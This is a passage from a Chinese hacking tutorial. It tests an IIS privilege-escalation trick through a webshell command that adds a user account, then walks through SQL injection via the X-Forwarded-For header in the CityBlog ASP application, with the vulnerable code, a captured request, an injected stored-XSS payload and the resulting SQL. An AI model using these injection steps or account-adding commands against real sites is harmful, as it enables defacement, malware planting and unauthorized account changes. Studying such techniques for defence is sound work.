IIS 写权限的具体利用方法已经很普及了，这里就不赘述了。对于 IIS 写权限的搜索，现在有一种新工具值得介绍一下，可以对 IIS 写权限自动搜索，填入 IP 地址然后扫描即可，如图 15。

但是该工具有个比较大的缺点，只能扫描基于 IP 的主机，对基于域名的虚拟主机或者单独的目录无能为力。虽然出现写权限漏洞大部分情况是出在根目录上，但是也有个别的非继承权限到下级子目录的。

最后说一下，不要相信网上一些奇奇怪怪但是被作者说得轻描淡写的提权方法，比如找一个具有 everyone 可执行权限的目录，放一个任意程序都可以以管理员的权限执行成功并轻松提权。至少这在 Windows 2003 和 IIS6 结构下是不可能的，因为 Windows 2003 的权限比起 Win2000 已经有了很大的变化，这样轻松的提权是不可能成功的。

这里做一下实验，如图 16，将一个目录设置成“脚本和可执行文件”。

然后把一个 cmd.exe 放进该目录，并且在 NTFS 权限设定中把 “everyone” 和 “IUSER 用户组” 都设为完全可控制权限，如图 17。

登录我们的 webshell，进入 cmdshell 执行页面，在运行程序的地址中写入本例中的 cmd 程序的绝对路径，然后执行 `C:\Inetpub\wwwroot\pro2.0\Img\cmd.exe /c net user nohack hack123456 /add`，如图 18。

从那些黑客教程中的理论来说，cmd.exe 是 everyone 可控制，即可以执行任何命令，我应该是提权成功了。但是可以在图 19 中明显看到，在机器上并没有建立成功这个 nohack 的账号。

## 八、SQL注入中的暗器

### ——X_FORWARDED_FOR注入

SQL注入漏洞自从问世的那天起，就以其直接取得管理员账号密码，甚至是 webshell 的高利用率，迅速地成为了入侵的主流手段，几乎“无站不可注，无站不被注”，令以前的传统入侵方法相形见绌。

正所谓“聚散终有时”，SQL注入如此强大，大家对于防护的安全研究也就越深入。近一年来，SQL注入已经越来越难，正所谓“道高一尺，魔高一丈”，随着一些常见的注入方向，如 URL 参数的注入、搜索注入、中转注入、Cookie 注入、盲注等一一被封堵，一些新的注入方式也在被挖掘出来。

| UserQuestion | UserAnswer | UserLastIP | UserPhoto | UserFav | UserInfo | UserSetting | UserGroupID | TitlePic |
|---|---|---|---|---|---|---|---|---|
|  |  | 58.52.207.89 |  | 陌生人,我的好友 | \|\|\|\|\|\|\|\|\|\|\|\|\|\|\|1\|\|\|0\|\|\|0\|\|\|0 |  | 4 | level20.gif |
|  |  | 116.21.110.229 |  | 陌生人,我的好友 | \|\|\|\|\|\|\|\|\|\|\|\|\|\|\|1\|\|\|0\|\|\|0\|\|\|0 |  | 1 | admin.gif |
|  |  | 58.52.207.89 |  | 陌生人,我的好友 | \|\|\|\|\|\|\|\|\|\|\|\|\|\|\|1\|\|\|0\|\|\|0\|\|\|0 |  | 4 | level20.gif |
|  |  | 58.52.229.201 |  | 陌生人,我的好友 | \|\|\|\|\|\|\|\|\|\|\|\|\|\|\|1\|\|\|0\|\|\|0\|\|\|0 |  | 1 | admin.gif |
|  |  | 222.244.90.70 |  | 陌生人,我的好友 | \|\|\|\|\|\|\|\|\|\|\|\|\|\|\|1\|\|\|0\|\|\|0\|\|\|0 |  | 9 | huiyuan.gif |
|  |  | 222.247.128.187 |  | 陌生人,我的好友 | \|\|\|\|\|\|\|\|\|\|\|\|\|\|\|1\|\|\|0\|\|\|0\|\|\|0 |  | 9 | huiyuan.gif |
|  |  | 116.31.37.224 |  | 陌生人,我的好友 | \|\|\|\|\|\|\|\|\|\|\|\|\|\|\|1\|\|\|0\|\|\|0\|\|\|0 |  | 9 | huiyuan.gif |
|  |  | 59.174.64.187 |  | 陌生人,我的好友 | \|\|\|\|\|\|\|\|\|\|\|\|\|\|\|1\|\|\|0\|\|\|0\|\|\|0 |  | 9 | huiyuan.gif |
|  |  | 222.130.234.110 |  | 陌生人,我的好友 | \|\|\|\|\|\|\|\|\|\|\|\|\|\|\|1\|\|\|0\|\|\|0\|\|\|0 |  | 3 | banzhu.gif |
|  |  | 61.145.83.196 |  | 陌生人,我的好友 | \|\|\|\|\|\|\|\|\|\|\|\|\|\|\|1\|\|\|0\|\|\|1\|\|\|0 |  | 9 | huiyuan.gif |
|  |  | 119.49.70.16 |  | 陌生人,我的好友 | \|\|\|\|\|\|\|\|\|\|\|\|\|\|\|1\|\|\|0\|\|\|0\|\|\|0 |  | 9 | huiyuan.gif |
|  |  | 219.135.229.117 |  | 陌生人,我的好友 | \|\|\|\|\|\|\|\|\|\|\|\|\|\|\|1\|\|\|0\|\|\|0\|\|\|0 |  | 9 | huiyuan.gif |
|  |  | 58.52.208.199 |  | 陌生人,我的好友 | \|\|\|\|\|\|\|\|\|\|\|\|\|\|\|1\|\|\|0\|\|\|0\|\|\|0 |  | 9 | huiyuan.gif |
|  |  | 221.232.158.30 |  | 陌生人,我的好友 | \|\|\|\|\|\|\|\|\|\|\|\|\|\|\|1\|\|\|0\|\|\|0\|\|\|0 |  | 9 | huiyuan.gif |
|  |  | 59.51.240.147 |  | 陌生人,我的好友 | \|\|\|\|\|\|\|\|\|\|\|\|\|\|\|1\|\|\|0\|\|\|0\|\|\|0 |  | 9 | huiyuan.gif |
|  |  | 58.52.208.199 |  | 陌生人,我的好友 | \|\|\|\|\|\|\|\|\|\|\|\|\|\|\|1\|\|\|0\|\|\|0\|\|\|0 |  | 9 | huiyuan.gif |
|  |  | 58.216.236.210 |  | 陌生人,我的好友 | \|\|\|\|\|\|\|\|\|\|\|\|\|\|\|1\|\|\|0\|\|\|0\|\|\|0 |  | 9 | huiyuan.gif |
|  |  | 58.52.208.199 |  | 陌生人,我的好友 | \|\|\|\|\|\|\|\|\|\|\|\|\|\|\|1\|\|\|0\|\|\|0\|\|\|0 |  | 9 | huiyuan.gif |
|  |  | 222.247.120.187 |  | 陌生人,我的好友 | \|\|\|\|\|\|\|\|\|\|\|\|\|\|\|1\|\|\|0\|\|\|0\|\|\|0 |  | 9 | huiyuan.gif |
|  |  | 172.18.10.126 |  | 陌生人,我的好友 | \|\|\|\|\|\|\|\|\|\|\|\|\|\|\|1\|\|\|0\|\|\|0\|\|\|0 |  | 9 | huiyuan.gif |
|  |  | 125.43.205.158 |  | 陌生人,我的好友 | \|\|\|\|\|\|\|\|\|\|\|\|\|\|\|1\|\|\|0\|\|\|0\|\|\|0 |  | 9 | huiyuan.gif |
|  |  | 117.82.85.14 |  | 陌生人,我的好友 | \|\|\|\|\|\|\|\|\|\|\|\|\|\|\|1\|\|\|0\|\|\|0\|\|\|0 |  | 9 | huiyuan.gif |
|  |  | 117.11.55.60 |  | 陌生人,我的好友 | \|\|\|\|\|\|\|\|\|\|\|\|\|\|\|1\|\|\|0\|\|\|0\|\|\|0 |  | 9 | huiyuan.gif |
|  |  | 222.69.77.196 |  | 陌生人,我的好友 | \|\|\|\|\|\|\|\|\|\|\|\|\|\|\|1\|\|\|0\|\|\|0\|\|\|0 |  | 9 | huiyuan.gif |
|  |  | 121.25.98.80 |  | 陌生人,我的好友 | \|\|\|\|\|\|\|\|\|\|\|\|\|\|\|1\|\|\|0\|\|\|0\|\|\|0 |  | 9 | huiyuan.gif |
|  |  | 60.177.231.34 |  | 陌生人,我的好友 | \|\|\|\|\|\|\|\|\|\|\|\|\|\|\|1\|\|\|0\|\|\|0\|\|\|0 |  | 9 | huiyuan.gif |
|  |  | 124.135.84.154 |  | 陌生人,我的好友 | \|\|\|\|\|\|\|\|\|\|\|\|\|\|\|1\|\|\|0\|\|\|0\|\|\|0 |  | 9 | huiyuan.gif |
|  |  | 202.103.38.17 |  | 陌生人,我的好友 | \|\|\|\|\|\|\|\|\|\|\|\|\|\|\|1\|\|\|0\|\|\|0\|\|\|0 |  | 9 | huiyuan.gif |
|  |  | 60.183.3.205 |  | 陌生人,我的好友 | \|\|\|\|\|\|\|\|\|\|\|\|\|\|\|1\|\|\|0\|\|\|0\|\|\|0 |  | 9 | huiyuan.gif |
|  |  | 60.17.142.152 |  | 陌生人,我的好友 | \|\|\|\|\|\|\|\|\|\|\|\|\|\|\|1\|\|\|0\|\|\|0\|\|\|0 |  | 3 | banzhu.gif |
|  |  | 58.35.213.239 |  | 陌生人,我的好友 | \|\|\|\|\|\|\|\|\|\|\|\|\|\|\|1\|\|\|0\|\|\|0\|\|\|0 |  | 9 | huiyuan.gif |
|  |  | 222.222.92.218 |  | 陌生人,我的好友 | \|\|\|\|\|\|\|\|\|\|\|\|\|\|\|1\|\|\|0\|\|\|0\|\|\|0 |  | 9 | huiyuan.gif |

图1

一个比较新的研究方向是基于 X_FORWARDED_FOR 的注入，这个注入的影响可大可小，小的话只能挂马，大的话则可以修改管理员的账号和密码。

在介绍这种注入的具体方法之前，先得补充一下基础知识：什么是 X_FORWARDED_FOR？

X_FORWARDED_FOR 就是 ASP 脚本中用来获得客户端，也就是浏览者 IP 地址的函数。早期的 ASP 脚本获取 IP 通常是采用 Request.ServerVariables("REMOTE_ADDR")，但是这个函数有个毛病，就是无法记录用代理 IP 的浏览者的真实 IP，而 Request.ServerVariables("HTTP_X_FORWARDED_FOR") 能读取客户端的真实 IP（虽然某些情况下还是不能读到真实的浏览者 IP）。

浏览者的 IP 是大部分网站都会收集的信息，因此绝大部分网站源码中也都整合了利用 HTTP_X_FORWARDED_FOR 记录 IP 的代码，所以这种注入有可能存在的范围是相当大的。如图1，就是数据库中被 HTTP_X_FORWARDED_FOR 记录并贮存的 IP 资料。

IP 地址是被类似以下代码存入数据库的，因为篇幅原因，我们只列出与本文内容相关的代码：

```asp
Dim IP
IP = Request.ServerVariables("HTTP_X_FORWARDED_FOR")
```

```asp
End If
SqlString = "INSERT INTO [user] (userquestion,useranswer,userlastIP,userphoto,userfav,userInfo,userSetting,userGroupID,titlepic) " & _
            "VALUE ('" & userquestion & "','" & useranswer & "','" & IP & "','" & userphoto & "','" & userfav & "','" & userInfo & "','" & userSetting & "','" & userGroupID & "','" & titlepic & "')"
```

在代码中先通过 `Request.ServerVariables("HTTP_X_FORWARDED_FOR")` 获取客户端的 IP 地址，然后赋值给 IP 变量。在下面的 insert 语句中，客户端 IP 和其它客户信息一起被插入到数据库，其中 UserLastIP 这个字段对应的取值正是来自刚才被赋值的变量“IP”。

IP 这个变量的获得与其它 userphoto、userfav、userInfo 等变量值的获得是不同的，其它的值可能是经过表单提交而来，因此代码的编写者也比较注意安全性，作了很好的防护。但是 HTTP_X_FORWARDED_FOR 直接从客户端抓取 IP 值，这里的安全问题很有可能被忽视，如果在插入时这个变量没有作很好的过滤，那一个注入漏洞就形成了。

在以上的例句中，是采用的 insert 插入语句，在源码中更多的是采用 update 语句，比如以下代码：

```asp
Dim IP
IP = Request.ServerVariables("HTTP_X_FORWARDED_FOR")
End If
SqlString = "UPDATE [user] SET userquestion='" & userquestion & "',useranswer='" & useranswer & "',userlastIP='" & IP & "',userphoto='" & userphoto & "',userfav='" & userfav & "',userInfo='" & userInfo & "',userSetting='" & userSetting & "',userGroupID='" & userGroupID & "',titlepic='" & titlepic & "'"
```

对于 insert 和 update 语句的 SQL 注入有没有什么区别呢？区别还是比较大的：

在 MSSQL 版本中，无论是 insert 还是 update 语句，甚至 delete 都可以注入，因为 MSSQL 支持多句执行。我们只要闭合了前面的语句，后面的语句想写什么就写什么，没有约束，自然可以顺利执行成功。

而 Access 数据库中就没这么便利了，它不支持多句执行，也就是说一次只能执行一个语句，受到原语句的约束就很大了，不能闭合之后天马行空地发挥。因此 insert 的语句在 Access 中是无法利用的。

如上面 insert 的例句中，前面 userquestion、useranswer、userlastIP、userphoto、userfav、userInfo、userSetting、userGroupID、titlepic 等九个字段是在源码中被限制死的，后面的 IP 变量想要操纵修改关键的其它字段内容，就会出现字段不匹配的情况。Update 就不同了，它的语法是直接在 set 后面添加要修改的字段名称并用等号赋值就可以了，在有注入漏洞的前提下，凡是符合在前面 “update [表名]” 中同一表名下的字段，理论上都可以修改，这给了我们跨站或其它的 hack 思路。

下面我们看看 HTTP_X_FORWARDED_FOR 注入在 cityblog 中的应用，在 “usermanage\usermanageclass.asp” 中有一行利用 update 操作数据库的代码，截选关键代码如下：

```asp
SqlString="Update [Article] Set Article_Title='"&Article_Title&"',Article_Zy='"&Article_Zy&"',Blog_Info='"&Article_Message&"',Article_Hid="&Article_Hid&",Article_ByClass='"&Article_Class&"',Article_Code='"&Article_SysCode&"',Article_Tag='"&Article_Tag&"',Photo='"&Photo&"',Article_Update='"&Article_Update&"',IP='"&IP&"' Where User_ID="&Session("UserID")&" And Article_ID="&Article_ID&""
```

### 重装上阵

其中 `IP='" & IP & "'"`，IP 参数是从 `IP = Request.ServerVariables("HTTP_X_FORWARDED_FOR")` 得到的，中间没有过滤防止 SQL 注入，这里使用的是 update 语句。要修改的各个字段只用一个逗号隔开，如果我们在注入语句中加上一个逗号及“要修改的字段名=要修改的字段值”，就达到了修改其它字段的目的。不过，这种修改不是可以随心所欲的，只能修改同一个表下的字段，也就是语句中 update 后面修改的表。本例中是 `Update [Article]`，即我们的注入语句是能修改 Article 表中的字段，所以想直接修改 admin 表改管理员密码进后台的想法就无法实现了。

我们来试试利用 update 来挂马（在一些情况下还是可实现跨表修改的，但这里只是一本菜鸟读物，就暂时不作介绍）。虽然理论上能修改 Article 表下的字段，但是并非每个字段都能修改，因为你要修改的字段还必须能符合你提交的内容，这需要注意以下两点：

- 1、要修改的字段类型与你的提交类型符合。假如一个字段是存放数字的，你输入的是字符，自然受规则限制无法成功，这点可以在 Access 数据库中看到系统本身的限制。
- 2、字段能容纳的字符长度要能容下你提交的字符数量。字段只允许插入十个字符，你提交的字符数却超过了，这当然是不行，如图2。

| 数据类型 | 说明 |
|---|---|
| 文本 | 可输入任意字符，长度可随意定制 |
| 备注 | 可以输入任意字符，但是长度不能随意定制 |
| 数字 | 只能输入数字类型的数据 |
| 日期/时间 | 只能输入日期或时间类型数据 |
| 货币 | 顾名思义，货币单位及货币符号类的数据 |
| 自动编号 | 自动递增的 ID 号，为数字 |
| 是/否 | 只能选 0 或 1 的值，用来标示“假”或“真” |
| OLE 对象 | 用来存储文档、图片、声音的数据，以及在别的程序中创建的其他类型的二进制数据 |
| 超链接 | 超链接类的数据类型 |

图2 的 id 字段中，限制了只准提交数字类型的字符，当输入一串 ggggg 字符时，Access 数据库提示“您可能在数值字段中输入了文本或是大于 FieldSize 设置所允许的数值”。在 time 字段中只允许输入日期类型数据，输入字符同样出现输入值无效的提示，如图3。字段数据类型主要有如表1所示的几种，各种不同的数据类型只能装对应的数据。通过这个表可以看出来，最适合跨站的是文本类的数据类型。

再回来看 cityblog 的代码，问题出现在 usermanage\usermanageclass.asp 文件中，相关代码如下：

```asp
SqlString="Update [Article] Set Article_Title='"&Article_Title&"',Article_Zy='"&Article_Zy&"',Blog_Info='"&Article_Message&"',Article_Hid="&Article_Hid&",Article_ByClass='"&Article_Class&"',Article_Code='"&Article_SysCode&"',Article_Tag='"&Article_Tag&"',Photo='"&Photo&"',Article_Update='"&Article_Update&"',IP='"&IP&"' Where User_ID="&Session("UserID")&" And Article_ID="&Article_ID&""
```

| 字段名称 | 数据类型 |
|---|---|
| Article_ID | 自动编号 |
| User_ID | 数字 |
| User_Name | 文本 |
| Article_Title | 文本 |
| Article_Zy | 备注 |
| Blog_Info | 备注 |
| Whather | 文本 |
| Article_ByMonth | 文本 |
| Article_Hid | 数字 |
| Article_Time | 日期/时间 |
| Article_ByClass | 文本 |
| Article_Code | 文本 |
| Article_B1 | 文本 |
| Article_Form | 文本 |
| Article_Tag | 文本 |
| Blog_Quote | 文本 |
| See_Count | 数字 |
| Re_Count | 数字 |
| Article_Update | 文本 |
| Top | 数字 |
| Photo | 文本 |
| IsPhoto | 是/否 |

以上代码中，对应的表是 [Article]，我们只要找到这个表中未在上面语句中被修改的字段（什么？你问为什么要找未在原语句中被修改的字段？如要修改已在前句中被修改的字段会出现一个字段被两次修改，就会因数据冲突而出错），只要符合数据类型和长度要求，然后利用 X_FORWARDED_FOR 插入 `127.0.0.1, 要修改的字段名='显示的字段值<script>alert("nohack")</script>'` 就行了。

这个思路和《资深黑客渗透内幕答疑》（非安全出品哦！）一书中写的数据库插马方法一样，其中 `127.0.0.1` 是自己的 IP 地址。在上面语句中，字段 Article_Title、Article_Zy、Blog_Info、Article_Hid、Article_ByClass、Article_Code、Article_Tag、Photo、Article_Update 都被用过了，我们看看在 [Article] 表中还有哪些字段是没有使用的。用 Office 2003 打开数据库，如图4，看到有 user_Name、whather、blog_quote、see_count、re_count 等几个字段是原语句没有修改的，其中 user_Name 和 whather 字段都是文本类型，最适合插入挂马字符了。手工修改 HTTP_X_FORWARDED_FOR 的值比较麻烦，我们直接请出“寂寞的刺猬”编写的 HTTP_X_FORWARDED_FOR 漏洞利用工具，如图5。工具的界面很清新，需要你填入主机地址、POST 的网站地址、来源页地址。

## 二、请认真填写下面的资料！

图4

图5

图6

图7

COOKIE、提交内容，这些信息我们都可以通过抓包轻易地得到，“HTTP_X_FORWARDED_FOR”一项中就是我们构造注入语句的地方。



工具介绍完了，下面我们开始正式对 cityblog 进行跨站。进行跨站的目标是 Article 表的 whather 字段。先在网站上注册一个账号，注册界面如图 6：

登录之后发表一篇 BLOG 日志，如图 7，我随便发布了一篇文章，标题和内容都是 test。

在这篇文章中，很明显能看出我们要修改的字段 whather（意思是天气）的内容，就是上面这个天气：晴。



接着用 WSockExpert 抓包来得到利用工具中要提交的主机地址、POST 的网站地址、来源页地址、COOKIE、提交内容。该工具的用法已经多次介绍过，就不浪费版面了。

我们回到发布消息的页面，如图 8，点“编辑”按钮，等出现如图 9 的编辑页面时，然后利用 WSockExpert 抓包，如图 10。

为了能看得清楚，我把包的内容复制下来，相信学会了抓包上传的读者对这一步骤一定不会陌生。



```http
POST /CixiBlog30TEST/UserManage/Photo_Update.asp HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, image/png, application/vnd.ms-excel, application/msword, */*
Referer: http://www.nohack.com/CixiBlog30TEST/UserManage/Photo_Update.Asp?ArticleID=375
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
UA-CPU: x86
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.2; SV1)
Host: www.nohack.com
Content-Length: 404
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: ASPSESSIONIDAARQADAC=CBNHKHAALGOPFIBLIEEMKILH
```

```text
log_Title=test&id=375&ClassName=111111%C4%AC%C8%CF%CF%E0%B2%E1&BlogClass=100&bl=&log_IsShow=0&size=&color=&message=%5Bimg%5D%2FCixiBlog30TEST%2FUser0%2F105%2FUpLoadFile%2F200931274693721.JPG%5B%2Fimg%5D%0D%0A&photo=%2Fcixiblog30test%2Fuser0%2F105%2Fuploadfile%2F200931274693721.jpg&tag=%CF%E0%C6%AC%7C%D5%D5%C6%AC%7C%C9%E3%D3%B0&update=true&iscopy=copy&PostBlog=Post&topicsubmit=%D0%DE%B8%C4%CF%E0%C6%AC
```

从抓包的信息中能看到主机名是 www.nohack.com，Cookie: 后面的就是 cookie 值，Referer: 后面的 http://www.nohack.com/CixiBlog30TEST/UserManage/Photo_Update.Asp?ArticleID=375 就是返回值，POST 后面的 /CixiBlog30TEST/UserManage/Photo_Update.asp 就是 POST 的地址。

在一行空格下的如下内容就是提交代码了。

```text
log_Title=test&id=375&ClassName=111111%C4%AC%C8%CF%CF%E0%B2%E1&BlogClass=100&bl=&log_IsShow=0&size=&color=&message=%5Bimg%5D%2FCixiBlog30TEST%2FUser0%2F105%2FUpLoadFile%2F200931274693721.JPG%5B%2Fimg%5D%0D%0A&photo=%2Fcixiblog30test%2Fuser0%2F105%2Fuploadfile%2F200931274693721.jpg&tag=%CF%E0%C6%AC%7C%D5%D5%C6%AC%7C%C9%E3%D3%B0&update=true&iscopy=copy&PostBlog=Post&topicsubmit=%D0%DE%B8%C4%CF%E0%C6%AC
```

最后是写入关键的 HTTP_X_FORWARDED_FOR 注入语句，我们填入“127.0.0.1’,whather=’晴<script>alert("nohack")</script>”，如图 11。

`<script>alert("nohack")</script>` 是经典的跨站代码，如果跨站成功，会在访问时弹出一个提示框。注意 `</script>` 后面没有单引号，因为这个单引号在源代码的文件中，和前面的单引号正好闭合。

这一句到了上文列出的 update 语句中就成了如下形式：

```vb
SqlString="Update [Article] Set Article_Title='"& Article_Title &"', Article_Zy='"& Article_Zy &"',Blog_Info='"& Article_Message &"',Article_Hid="& Article_Hid &"',Article_ByClass='"& Article_Class &"',Article_Code='"& Article_SysCode &"',Article_Tag='"& Article_Tag &"',Photo='"& Photo &"',Article_Update='"& Article_Update &"',IP='"&IP&"' Where User_ID="&Session("UserID")&" And Article_ID="& Article_ID '
```

最后实际向数据库提交的语句如下：

```sql
Update [Article] Set Article_Title='test',Article_Zy='test',Blog_Info=' ',Article_Hid=,Article_ByClass='111111',Article_Code=,Article_Tag=,Photo='/cixiblog30test/user0/105/uploadfile/200931274693721.jpg ',Article_Update='true',IP=127.0.0.1', whather='晴<script>alert("nohack")</script>' Where User_ID='nohack' And Article_ID=375
```



注意语句中用粗体字标出的代码，修改 whather 字段的操作是原来语句中没有的，我们正是通过 SQL 注入，在原来语句中加上了这一修改。插入后在数据库中可以看到变化，在 whather 字段中有了我们插的代码，如图 12。

